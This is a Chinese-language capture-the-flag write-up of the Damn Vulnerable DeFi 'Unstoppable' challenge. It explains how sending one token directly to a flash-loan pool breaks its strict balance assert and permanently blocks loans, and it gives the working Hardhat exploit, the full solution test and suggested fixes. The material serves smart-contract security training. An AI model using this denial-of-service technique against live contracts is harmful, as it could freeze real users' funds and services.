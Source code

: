 [Damn Vulnerable DeFi](https://damnvulnerabledefi.xyz/) 是一個模擬駭客攻擊的遊戲，通過練習可以增加我們對於合約弱點的敏銳度、學習站在審計員的角度審查合約的漏洞。

![https://i.imgur.com/YmWEAHb.png](https://i.imgur.com/YmWEAHb.png)

# 🪙 Challenge #1 - Unstoppable 勢不可擋

裡面有一個借貸池用有幾百萬顆 DVT tokens，而且免費提供閃電貸的服務。我們一開始有 **100 顆 DVT** 可以用，目標是要想辦法攻擊借貸池，讓這個池子**沒辦法再提供 [****Flash Loan**** 閃電貸](https://www.notion.so/Flash-Loan-aaf6168be4bc4eca84d805e99730223c) 的服務**。

- [See the contracts](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v2.2.0/contracts/unstoppable)
- [Complete the challenge](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.2.0/test/unstoppable/unstoppable.challenge.js)

## 思考切入點

- 有什麼資源可以用？ 100 顆 DVT
- 什麼樣的狀況下 `UnstoppableLender` 會沒有辦法提供服務？flashLoan 有什麼條件？我們要可以改變他哪些條件可以讓 [flashLoan](https://www.notion.so/Flash-Loan-aaf6168be4bc4eca84d805e99730223c) revert？

## 合約研讀：尋找攻擊點

- 仔細看我們會發現總共有以下幾的地方有可能 revert，一一查看就會發現只有 3️⃣ 讓 damnValuableToken 的量跟 poolBalance 不一致，是最簡單的攻擊點。我們可以透過主動轉錢給 UnstoppableLender 讓他的實際擁有量跟紀錄量不一樣。

```solidity
function flashLoan(uint256 borrowAmount) external nonReentrant {
                // 1️⃣：參數，無法控制
        require(borrowAmount > 0, "Must borrow at least one token");

        uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
                // 2️⃣：可以想辦法把 damnValuableToken 的量少到無法借出，但在這個案例中我們沒辦法做到
        require(balanceBefore >= borrowAmount, "Not enough tokens in pool");

                // 3️⃣ 😈 讓 damnValuableToken 的量跟 poolBalance 不一致，💡確實可以成為攻擊點。
        // Ensured by the protocol via the `depositTokens` function
        assert(poolBalance == balanceBefore);

        damnValuableToken.transfer(msg.sender, borrowAmount);

        IReceiver(msg.sender).receiveTokens(
            address(damnValuableToken),
            borrowAmount
        );

        uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
                // 4️⃣ 使用者還錢與否無法控制
        require(
            balanceAfter >= balanceBefore,
            "Flash loan hasn't been paid back"
        );
    }
```

## 實現攻擊

### 攻擊點

- 轉錢操控 Balance， 主動轉錢給 UnstoppableLender 讓他的實際擁有量跟紀錄量不一樣。這樣 `assert(poolBalance == balanceBefore)` 永遠過不了。
- `yarn run unstoppable` 之後就可以發現通過拉 ✨

```solidity
it('Exploit', async function () {
        // 主動轉錢讓 poolBalance !== balanceBefore
        await this.token.transfer(this.pool.address, 1);
    });
```

^6d4bd0

```solidity
[Challenge] Unstoppable
    ✓ Exploit

  1 passing (1s)

✨  Done in 3.78s.
```

## 🔧 弱點總結 & 修改方式

這題基本上是因為錯誤 [****Flash Loan**** 閃電貸](https://www.notion.so/Flash-Loan-aaf6168be4bc4eca84d805e99730223c)  依賴外部可控的條件判斷邏輯，導致無法提供服務，屬於邏輯錯誤的 [阻擋攻擊](https://www.notion.so/0e024713109c42bf899a9815511a0a7c) 、 [操弄依變因攻擊](https://www.notion.so/2a0407b1936b4540a1b45c930e346336)  類型，因為有一行 `assert(poolBalance == balanceBefore)`只要有人多轉了一筆錢造成`poolBalance != balanceBefore` flashloan 的服務就直接報廢掉，而且因為沒有地方可以取錢出來，所以此錯誤也不能被修正。

弱點： 1. 可操弄邏輯判斷依變因 2. 未限制轉錢對象

攻擊方法： 1. 轉 1 wei 到合約當中 讓 `assert(poolBalance == balanceBefore)` 永遠過不了

改進方法： 1. 可以把 `assert(poolBalance == balanceBefore);` ，變成 `assert(poolBalance >= balanceBefore);` 2. 限定只有 owner 才能轉錢進合約。

## 完整合約

### UnstoppableLender 完整合約

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

interface IReceiver {
    function receiveTokens(address tokenAddress, uint256 amount) external;
}

/**
 * @title UnstoppableLender
 * @author Damn Vulnerable DeFi (<https://damnvulnerabledefi.xyz>)
 */
contract UnstoppableLender is ReentrancyGuard {
    IERC20 public immutable damnValuableToken;
    uint256 public poolBalance;

    constructor(address tokenAddress) {
        require(tokenAddress != address(0), "Token address cannot be zero");
        damnValuableToken = IERC20(tokenAddress);
    }

    function depositTokens(uint256 amount) external nonReentrant {
        require(amount > 0, "Must deposit at least one token");
        // Transfer token from sender. Sender must have first approved them.
        damnValuableToken.transferFrom(msg.sender, address(this), amount);
        poolBalance = poolBalance + amount;
    }

    function flashLoan(uint256 borrowAmount) external nonReentrant {
        require(borrowAmount > 0, "Must borrow at least one token");

        uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
        require(balanceBefore >= borrowAmount, "Not enough tokens in pool");

        // Ensured by the protocol via the `depositTokens` function
        assert(poolBalance == balanceBefore); // 💡 攻擊點

        damnValuableToken.transfer(msg.sender, borrowAmount);

        IReceiver(msg.sender).receiveTokens(
            address(damnValuableToken),
            borrowAmount
        );

        uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
        require(
            balanceAfter >= balanceBefore,
            "Flash loan hasn't been paid back"
        );
    }
}
```

### Test 解法完整合約

```jsx
const { ethers } = require('hardhat');
const { expect } = require('chai');

describe('[Challenge] Unstoppable', function () {
    let deployer, attacker, someUser;

    // Pool has 1M * 10**18 tokens
    const TOKENS_IN_POOL = ethers.utils.parseEther('1000000');
    const INITIAL_ATTACKER_TOKEN_BALANCE = ethers.utils.parseEther('100');

    before(async function () {
        /** SETUP SCENARIO - NO NEED TO CHANGE ANYTHING HERE */

        [deployer, attacker, someUser] = await ethers.getSigners();

        const DamnValuableTokenFactory = await ethers.getContractFactory('DamnValuableToken', deployer);
        const UnstoppableLenderFactory = await ethers.getContractFactory('UnstoppableLender', deployer);

        this.token = await DamnValuableTokenFactory.deploy();
        this.pool = await UnstoppableLenderFactory.deploy(this.token.address);

        await this.token.approve(this.pool.address, TOKENS_IN_POOL);
        await this.pool.depositTokens(TOKENS_IN_POOL);

        await this.token.transfer(attacker.address, INITIAL_ATTACKER_TOKEN_BALANCE);

        expect(
            await this.token.balanceOf(this.pool.address)
        ).to.equal(TOKENS_IN_POOL);

        expect(
            await this.token.balanceOf(attacker.address)
        ).to.equal(INITIAL_ATTACKER_TOKEN_BALANCE);

         // Show it's possible for someUser to take out a flash loan
         const ReceiverContractFactory = await ethers.getContractFactory('ReceiverUnstoppable', someUser);
         this.receiverContract = await ReceiverContractFactory.deploy(this.pool.address);
         await this.receiverContract.executeFlashLoan(10);
    });

    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        await this.token.transfer(this.pool.address, 1);
    });

    after(async function () {
        /** SUCCESS CONDITIONS */

        // It is no longer possible to execute flash loans
        await expect(
            this.receiverContract.executeFlashLoan(10)
        ).to.be.reverted;
    });
});
```

## References

[Damn Vulnerable DeFi](https://damnvulnerabledefi.xyz/)
